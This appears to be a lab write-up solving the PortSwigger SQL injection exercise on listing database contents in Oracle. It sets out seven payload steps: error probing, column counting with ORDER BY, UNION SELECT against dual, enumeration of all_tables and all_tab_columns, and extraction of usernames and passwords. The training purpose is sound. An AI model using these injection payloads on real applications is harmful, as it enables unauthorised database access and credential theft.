 # SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Step - 1
-
`'`</br>
Error > Single Quotes

Step - 2
-
`'--`</br>
No MySQL

Step - 3
-
`' ORDER BY 3--`</br>
Error > 2 Column

Step - 4
-
`' UNION SELECT 'a','a' FROM dual--`</br>
2 String Column

Step - 5
-
`' UNION SELECT 'a',table_name FROM all_tables--`</br>
1. Table Name: USERS_JASUOU

Step - 6
-
`' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--`</br>
1. Column Name: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
-
`' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--`
